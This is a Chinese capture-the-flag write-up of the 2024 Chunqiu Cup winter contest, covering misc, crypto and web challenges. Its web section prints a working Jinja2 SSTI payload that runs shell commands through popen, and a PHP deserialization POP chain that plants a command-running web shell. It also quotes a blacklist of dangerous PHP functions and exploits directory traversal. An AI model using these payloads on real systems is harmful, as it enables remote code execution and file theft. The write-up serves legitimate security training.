# 2024春秋杯网络安全联赛冬季赛部分wp-先知社区

> **来源**: https://xz.aliyun.com/news/16579  
> **文章ID**: 16579

---

# Misc

## day1-简单算术

根据提示应该是异或


下载文件是一个字符串，写个代码字符串异或解密，由于需要密钥，所以先对单字节密钥进行爆破解密

爆破出flag



代码如下：

```
cipher_text = "ys~xdg/m@]mjkz@vl@z~lf>b"
 # 暴力破解单字符密钥
 def brute_force_decrypt(cipher_text):
     for key in range(256):  # 遍历所有可能的单字节密钥（0-255）
         potential_text = ""
         for char in cipher_text:
             potential_text += chr(ord(char) ^ key)
         print(f"密钥: {chr(key)} => 解密结果: {potential_text}")
 
 brute_force_decrypt(cipher_text)
```

## day1-See anything in these pics?

打开附件有一个二维码图片，一个加密压缩包，根据图片名字判断，应该是**Aztec码**

在这个网站识别：<https://products.aspose.app/barcode/zh-hans/recognize#/recognized>


拿到解压密码: **5FIVE**

随波逐流看一下，**存在隐写**



分离一下



修复宽高拿到**flag**


## day2-Weevil's Whisper

先看看提示，一道流量分析题


大部分都是tcp，http流量



追踪**TCP流**看看，有如下代码



丢给**ai**分析一下，找出关键部分



异或密钥：



通过对后续流的判断，推测每一个流都有**zlip压缩后异或再base64加密**的数据，写个代码一个一个尝试

**代码：**

```
import base64
 import zlib
 # 假设 x 是一个自定义的解密函数，这里用 lambda 表示
 # 你需要根据实际情况替换 x 的实现
 x = lambda data, key: bytes([data[i] ^ key[i % len(key)] for i in
 range(len(data))])
 # 假设 m 是一个包含 base64 编码数据的列表，k 是密钥
 m = ["Sap6risomCodHP/PqrQaqvueeU+wURkueAeGLStP+bQE+HqsLq39zTQ2L1hsAA=="] 
 k = b"161ebd7d" # 替换为实际的密钥
 # 解码 base64
 decoded_data = base64.b64decode(m[0])
 # 使用自定义函数 x 进行解密
 decrypted_data = x(decoded_data, k)
 # 解压缩数据
 uncompressed_data = zlib.decompress(decrypted_data)
 print(uncompressed_data)
```

最终尝试到最后一个流



得出flag：



## day3-问卷

填完即可


# Crypto

## day1-通往哈希的旅程

拿到题目，根据提示应该是**hash密码**，由于位数是**40位**，大致判断是**sha1加密**



有了**前3位**，只需要**爆破后8位**即可，写个脚本实现



脚本如下：

```
import hashlib
 
 def sha1_crack(target_hash):
     # 固定前缀为188，长度总共11位，所以需要7位补齐
     prefix = "188"
     
     # 遍历所有可能的后8位数字
     for suffix in range(0, 100000000):  # 从00000000到99999999
         # 格式化为8位数字，不足前面补0
         phone_number = f"{prefix}{suffix:08}"
         
         # 计算当前号码的SHA1哈希值
         hash_object = hashlib.sha1(phone_number.encode())
         generated_hash = hash_object.hexdigest()
         
         # 如果生成的哈希值与目标哈希值相同，则返回匹配结果
         if generated_hash == target_hash:
             return phone_number
     
     # 如果遍历结束后没有找到匹配，返回None
     return None
 
 if __name__ == "__main__":
     # 目标SHA1值
     target_hash = "ca12fd8250972ec363a16593356abb1f3cf3a16d"
     
     # 尝试破解
     result = sha1_crack(target_hash)
     
     if result:
         print(f"成功找到匹配号码: flag{{{result}}}")
     else:
         print("未能找到匹配号码")
```

## day3-funny\_rsa

先看看初始代码，还有一串密文

```
import random
 import libnum
 from Crypto.Util.number import bytes_to_long, long_to_bytes
 
 print("Welcome to ChunqiuCTF Game!")
 print("接下来完成下面的挑战")
 print("Good luck!")
 
 # funny
 hint = b' '
 m = b' '
 p = libnum.generate_prime(1024)
 q = libnum.generate_prime(1024)
 n = p * q
 
 print("give you some funny numbers")
 # funny 1
 print(p+q - p*q + random.randint(-1025, +1025)) 
 # funny 2
 print(bytes_to_long(m)*bytes_to_long(hint))
 # funny 3
 print(bytes_to_long(m)*n*bytes_to_long(hint) - 1025)
 # funny 4
 print(pow(bytes_to_long(hint), 65537, n))
 
 #-17696257697673533517695215344482784803953262308315416688683426036407670627060768442028628137969719289734388098357659521255966031131390425549974547376165392147394271974280020234101031837837842620775164967619688351222631803585213762205793801828461058523503457022704948803795360591719481537859524689187847958423587638744086265395438163720708785636319741908901866136858161996560525252461619641697255819255661269266471689541673348377717503957328827459396677344554172542244540931545166846117626585580964318010181586516365891413041095399344533013057011854734701706641516027767197631044458866554524544179750101814734153116374
 #23686728880494758233026798487859622755203105120130180108222733038275788082047755828771429849079142070779731875136837978862880500205129022165600511611807590195341629179443057553694284913974985006590617143873019530710952420242412437467917519539591683898715990297750494900923245055632544763410401540518654522017115269508183482044872091052235608170710105631742176900306097734799793264202179181242015892763311753674799273300604804820015447161950996038795518844564861004398396796284113803759208011
 #419166458284161364374927086939132546372091965414091344286510440034452974193054721041229068769658972346759176374539266235862042787888391905466876330331208651698002159575012622762558316612596034044109738533275009086940744966244759977014078484433213617582101347769476703012517531619023366639507114909172774156647998737369356116119513795863130218094614475699956104117183821832339358478426978211282822163928764161915824622224165694904342224081321345691796882691318330781141960650263488927837990954860719950761728580780956673732592771855694502630374907978111094148614378212006604233062606116168868545120407836000858982789824582335703891535021579560434875457656655941164757860852341484554015214879991896412137447010444797452119431147303295803678311972500421396900616845556636124424993090559354406417222700637726789045926994792374756038517484548544506630672251868349748176389591615802039026216656891403871728516658502023897343287181822303758976641229952646993446276281728919020747050486979968215989594984778920359425264076558022228448529089047021814759587052098774273578311709416672952218680244714492318709603579024
 #13541898381047120826573743874105965191304100799517820464813250201030319771155430755606644860103469823030581858410957600027665504533335597988508084284252510961847999525811558651340906333101248760970154440885012717108131962658921396549020943832983712611749095468180648011521808106480590665594160479324931351996812185581193608244652792936715504284312172734662364676167010674359243219959129435127950232321130725013160026977752389409620674167037650367196748592335698164875097139931376389630867192761783936757260359606379088577977154378217235326249540098268616890307702288393952949444753648206049856544634755301197410481479
```

首先利用最大公约数来求n

```
import gmpy2
 from Crypto.Util.number import *
  
 funny2 = 23686728880494758233026798487859622755203105120130180108222733038275788082047755828771429849079142070779731875136837978862880500205129022165600511611807590195341629179443057553694284913974985006590617143873019530710952420242412437467917519539591683898715990297750494900923245055632544763410401540518654522017115269508183482044872091052235608170710105631742176900306097734799793264202179181242015892763311753674799273300604804820015447161950996038795518844564861004398396796284113803759208011
 funny3 = 419166458284161364374927086939132546372091965414091344286510440034452974193054721041229068769658972346759176374539266235862042787888391905466876330331208651698002159575012622762558316612596034044109738533275009086940744966244759977014078484433213617582101347769476703012517531619023366639507114909172774156647998737369356116119513795863130218094614475699956104117183821832339358478426978211282822163928764161915824622224165694904342224081321345691796882691318330781141960650263488927837990954860719950761728580780956673732592771855694502630374907978111094148614378212006604233062606116168868545120407836000858982789824582335703891535021579560434875457656655941164757860852341484554015214879991896412137447010444797452119431147303295803678311972500421396900616845556636124424993090559354406417222700637726789045926994792374756038517484548544506630672251868349748176389591615802039026216656891403871728516658502023897343287181822303758976641229952646993446276281728919020747050486979968215989594984778920359425264076558022228448529089047021814759587052098774273578311709416672952218680244714492318709603579024
 
 n = (funny3+1025)//gmpy2.gcd(funny3+1025,funny2)
 print(n)
 # n=17696257697673533517695215344482784803953262308315416688683426036407670627060768442028628137969719289734388098357659521255966031131390425549974547376165392147394271974280020234101031837837842620775164967619688351222631803585213762205793801828461058523503457022704948803795360591719481537859524689187847958423854887927385251366355690432834992251981467618044652729026583095120137339494261578444395436053118572869777876188550962458760967380393115254438861483654205295921877587647313478227890321887337600538927105776831391301452172833129470417556416145729275237684471317547282356386364496954995277114788157853037049373459
```

求出n



利用两等式

```
p+q+random.randint(-1025, +1025)=funny1+n
 p*q=n
```

写个脚本爆破**p,q**，脚本如下

```
import random
 from sympy import symbols, Eq, solve
 
 # 已知值
 S = 267249183298985970917526712126206615661725709142786592168421098559612087032641936747139616797457303603306186646877614081043463423064287795042184139100032753677336656102146632110263736306373282528745519260465499888411077433784937404499404290994573531042955289780084725341905630400470732935038056038302896257085
 P = 17696257697673533517695215344482784803953262308315416688683426036407670627060768442028628137969719289734388098357659521255966031131390425549974547376165392147394271974280020234101031837837842620775164967619688351222631803585213762205793801828461058523503457022704948803795360591719481537859524689187847958423854887927385251366355690432834992251981467618044652729026583095120137339494261578444395436053118572869777876188550962458760967380393115254438861483654205295921877587647313478227890321887337600538927105776831391301452172833129470417556416145729275237684471317547282356386364496954995277114788157853037049373459
 
 # 变量
 p, q = symbols('p q')
 
 # 循环 r 从 -1025 到 +1025
 for r in range(-1025, 1026):
     # 方程
     eq1 = Eq(p + q + r, S)
     eq2 = Eq(p * q, P)
 
     # 解决方程
     solution = solve((eq1, eq2), (p, q))
 
     # 如果找到解，则打印并结束循环
     if solution:
         for sol in solution:
             print(f'找到解:
p: {sol[0]}, q: {sol[1]}, r: {r}')
         break
 else:
     print("在指定范围内未找到解决方案.")
```

得出两组解



解如下：

```
p: 121004219395862073532804082806340631799340418715294959548740259860696452148505138628278672451114956918640919017945080350359103071980810166559135721705539384756307003485424556008681154424378497979529289886138434060712086981150322382527260331633912757147923715355406574269877979092476127777668229727770349800759
 q: 146244963903123897384722629319865983862385290427491632619680838698915634884136798118860944346342346684665267628932533730684360351083477628483048417394493368921029652616722076101582581881994784549216229374327065827698990452634615021972143959360660773895031574424678151072027651307994605157369826310532546455301
 r: 1025
 
 p: 146244963903123897384722629319865983862385290427491632619680838698915634884136798118860944346342346684665267628932533730684360351083477628483048417394493368921029652616722076101582581881994784549216229374327065827698990452634615021972143959360660773895031574424678151072027651307994605157369826310532546455301
 q: 121004219395862073532804082806340631799340418715294959548740259860696452148505138628278672451114956918640919017945080350359103071980810166559135721705539384756307003485424556008681154424378497979529289886138434060712086981150322382527260331633912757147923715355406574269877979092476127777668229727770349800759
 r: 1025
```

利用脚本得出flag：



脚本：

```
import gmpy2
from Crypto.Util.number import *
 
funny1 = -17696257697673533517695215344482784803953262308315416688683426036407670627060768442028628137969719289734388098357659521255966031131390425549974547376165392147394271974280020234101031837837842620775164967619688351222631803585213762205793801828461058523503457022704948803795360591719481537859524689187847958423587638744086265395438163720708785636319741908901866136858161996560525252461619641697255819255661269266471689541673348377717503957328827459396677344554172542244540931545166846117626585580964318010181586516365891413041095399344533013057011854734701706641516027767197631044458866554524544179750101814734153116374
funny2 = 23686728880494758233026798487859622755203105120130180108222733038275788082047755828771429849079142070779731875136837978862880500205129022165600511611807590195341629179443057553694284913974985006590617143873019530710952420242412437467917519539591683898715990297750494900923245055632544763410401540518654522017115269508183482044872091052235608170710105631742176900306097734799793264202179181242015892763311753674799273300604804820015447161950996038795518844564861004398396796284113803759208011
funny3 = 419166458284161364374927086939132546372091965414091344286510440034452974193054721041229068769658972346759176374539266235862042787888391905466876330331208651698002159575012622762558316612596034044109738533275009086940744966244759977014078484433213617582101347769476703012517531619023366639507114909172774156647998737369356116119513795863130218094614475699956104117183821832339358478426978211282822163928764161915824622224165694904342224081321345691796882691318330781141960650263488927837990954860719950761728580780956673732592771855694502630374907978111094148614378212006604233062606116168868545120407836000858982789824582335703891535021579560434875457656655941164757860852341484554015214879991896412137447010444797452119431147303295803678311972500421396900616845556636124424993090559354406417222700637726789045926994792374756038517484548544506630672251868349748176389591615802039026216656891403871728516658502023897343287181822303758976641229952646993446276281728919020747050486979968215989594984778920359425264076558022228448529089047021814759587052098774273578311709416672952218680244714492318709603579024
funny4 = 13541898381047120826573743874105965191304100799517820464813250201030319771155430755606644860103469823030581858410957600027665504533335597988508084284252510961847999525811558651340906333101248760970154440885012717108131962658921396549020943832983712611749095468180648011521808106480590665594160479324931351996812185581193608244652792936715504284312172734662364676167010674359243219959129435127950232321130725013160026977752389409620674167037650367196748592335698164875097139931376389630867192761783936757260359606379088577977154378217235326249540098268616890307702288393952949444753648206049856544634755301197410481479
e=65537 

n = 17696257697673533517695215344482784803953262308315416688683426036407670627060768442028628137969719289734388098357659521255966031131390425549974547376165392147394271974280020234101031837837842620775164967619688351222631803585213762205793801828461058523503457022704948803795360591719481537859524689187847958423854887927385251366355690432834992251981467618044652729026583095120137339494261578444395436053118572869777876188550962458760967380393115254438861483654205295921877587647313478227890321887337600538927105776831391301452172833129470417556416145729275237684471317547282356386364496954995277114788157853037049373459
 
p = 146244963903123897384722629319865983862385290427491632619680838698915634884136798118860944346342346684665267628932533730684360351083477628483048417394493368921029652616722076101582581881994784549216229374327065827698990452634615021972143959360660773895031574424678151072027651307994605157369826310532546455301
q = 121004219395862073532804082806340631799340418715294959548740259860696452148505138628278672451114956918640919017945080350359103071980810166559135721705539384756307003485424556008681154424378497979529289886138434060712086981150322382527260331633912757147923715355406574269877979092476127777668229727770349800759
phi = (p-1)*(q-1)
d = gmpy2.invert(e,phi)
hint = pow(funny4,d,n)
 
print(long_to_bytes(funny2//hint))    #funny2=bytes_to_long(m)*bytes_to_long(hint)
#fake:flag{5044833682931814367881036090727702841234957943094051805420875375031047763007750978962055801191968383860156687597666360268370292861}
print(long_to_bytes(5044833682931814367881036090727702841234957943094051805420875375031047763007750978962055801191968383860156687597666360268370292861))
```

# Web

## day1-ez\_flask

根据题目提示，应该是SSTI类型题


参考文章：<https://blog.csdn.net/m0_73185293/article/details/131695528>



确定存在**ssti注入**


直接读取：

/?user={{().\_\_class\_\_.\_\_mro\_\_[-1].\_\_subclasses\_\_()[133].\_\_init\_\_.\_\_globals\_\_['popen']('cat flag').read()}}


## day2-easy\_ser

打开环境，需要**post**传入一个反序列化**data**参数



```
function PassWAF1($data){
    $BlackList = array("eval", "system", "popen", "exec", "assert", "phpinfo", "shell_exec",  "pcntl_exec", "passthru", "popen", "putenv");
    foreach ($BlackList as $value) {
        if (preg_match("/" . $value . "/im", $data)) {
            return true;
        }
    }
    return false;
}

function PassWAF2($str){
    $output = '';
    $count = 0;
    foreach (str_split($str, 16) as $v) {
        $hex_string = implode(' ', str_split(bin2hex($v), 4));
        $ascii_string = '';
        foreach (str_split($v) as $c) {
            $ascii_string .= (($c < ' ' || $c > '~') ? '.' : $c);
        }
        $output .= sprintf("%08x: %-40s %-16s
", $count, $hex_string, $ascii_string);
        $count += 16;
    }
    return $output;
}

function PassWAF3($data){
    $BlackList = array("\.\.", "\/");
    foreach ($BlackList as $value) {
        if (preg_match("/" . $value . "/im", $data)) {
            return true;
        }
    }
    return false;
}

function Base64Decode($s){
    $decodeStr = base64_decode($s);
    if (is_bool($decodeStr)) {
        echo "gg";
        exit(-1);
    }
    return $decodeStr;
}

class STU{

    public $stu;
    public function __construct($stu){
        $this->stu = $stu;
    }

    public function __invoke(){
        echo $this->stu;
    }
}


class SDU{
    public $Dazhuan;

    public function __wakeup(){
        $Dazhuan = $this->Dazhuan;
        $Dazhuan();
    }
}


class CTF{
    public $hackman;
    public $filename;

    public function __toString(){

        $data = Base64Decode($this->hackman);
        $filename = $this->filename;

        if (PassWAF1($data)) {
            echo "so dirty";
            return;
        }
        if (PassWAF3($filename)) {
            echo "just so so?";
            return;
        }

        file_put_contents($filename, PassWAF2($data));
        echo "hack?";
        return "really!";
    }

    public function __destruct(){
        echo "bye";
    }
}
```

对代码进行审计，过滤了**"eval", "system", "popen", "exec", "assert", "phpinfo", "shell\_exec", "pcntl\_exec", "passthru", "popen", "putenv"**等参数，将传入的字符串转换为16字节一组的十六进制表示，过滤了目录遍历符，还需要base解码一次

找到关键部分



写个代码构造

```
<?php
class STU{
public $stu;
}
class SDU{
public $Dazhuan;
}
class CTF{
public $hackman="fuck";
public $filename='track.php';
}
$sdu=new SDU();
$stu=new STU();
$ctf=new CTF();
$sdu->Dazhuan=$stu;      #构造pop链
$stu->stu=$ctf;
$ctf->hackman="PD89YGNhdCAvZipgOw==";  #  <?=`cat /f*`;的base64值
echo serialize($sdu);
```

将得出的序列化结果利用data参数传入，然后访问**track.php**即可



## day3-easy\_php

这题存在非预期解，打开环境，先下载代码

```
<?php
header("content-type:text/html;charset=utf-8");
include 'function.php';
include 'class.php';
#ini_set('open_basedir','/var/www/html/phar2');
$file = $_GET["file"] ? $_GET['file'] : "";
if(empty($file)) {
    echo "<h2>There is no file to show!<h2/>";
}
$show = new Show();
if(file_exists($file)) {
    $show->source = $file;
    $show->_show();
} else if (!empty($file)){
    die('file doesn\'t exists.');
}
?>
```

在这段代码里存在目录遍历漏洞，所以直接利用文件读取就可以出flag


